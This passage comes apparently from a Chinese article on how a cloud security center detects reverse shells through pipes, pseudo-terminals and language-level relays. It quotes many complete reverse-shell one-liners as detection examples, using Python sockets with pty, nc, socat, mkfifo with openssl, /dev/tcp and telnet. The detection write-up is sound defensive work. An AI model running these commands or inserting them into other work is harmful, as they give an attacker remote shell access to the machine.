 云安全中心告警

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175441.png)

这类反弹shell使用频率较高，其中利用伪终端中转的方式值得单独讨论，比如以下案例

    
    
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.155",10006));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'  
    

该模式与通过管道等中转原理一样，但通过伪终端中转的检测难度大大提升，单从shell的标准输入输出来看，和正常打开的终端没有什么区别，此外，一些场景如容器、agent等等也会有相似的日志表现，在平衡漏报与误报的难度上大大提升。因此我们在文件描述符检测方案的基础上，结合进程、网络等多种日志信息综合分析。

 **云安全中心告警**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175442.png)

  

通过管道、伪终端等作为中转体，并与socket打通，重定向shell解释器的输入输出到中转体，比如以下案例

    
    
    nc 10.10.10.10 6060|/bin/sh|nc 10.10.10.10 5050 nc -e /bin/bash 10.10.10.10 6060 nc -c bash 10.10.10.10 6060 socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.10.10:6060  
    
    
    
    mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 6060>/tmp/f  
    
    
    
    mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 10.10.10.10:6060 > /tmp/s; rm /tmp/s  
    
    
    
    mknod backpipe p; nc 10.10.10.10 6060 0<backpipe | /bin/bash 1>backpipe 2>backpipe  
    
    
    
    exec 5<>/dev/tcp/10.10.10.10/6060;cat <&5|while read line;do $line >&5 2>&1;done  
    
    
    
    telnet 10.10.10.10 6060 | /bin/bash | telnet 10.10.10.10 5050  
    

### 第三类反弹shell：编程语言实现标准输入中转，重定向命令执行的输入到中转  

第三种类型通过编程语言实现标准输入的中转，然后重定向命令执行的输入到中转，标准输出和标准错误中转形式不限制。

    
    
    python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('0.0.0.0',666))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), stdout=subprocess.PIPE, stderr=subprocess.PIPE,shell=True);s.send(proc.stdout.read()+proc.stderr.read())\")"  
    

在这种场景下，反弹shell的命令执行和正常业务行为变得更加难以区分，对抗程度上升，除了从进程命令行尽可能的覆盖这类反弹shell的特征以外，云安全中心通过异常命令行为序列、异常shell启动模型对该类风险进行兜底。异常命令行为序列模型依托于于阿里云大数据实时计算平台，通过分析命令序列与攻击者获取shell后行为相似度来判定是否为反弹shell。而异常shell启动模型结合多维度特征以及机器历史行为综合判定产出告警。如下图告警案例

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175443.png)
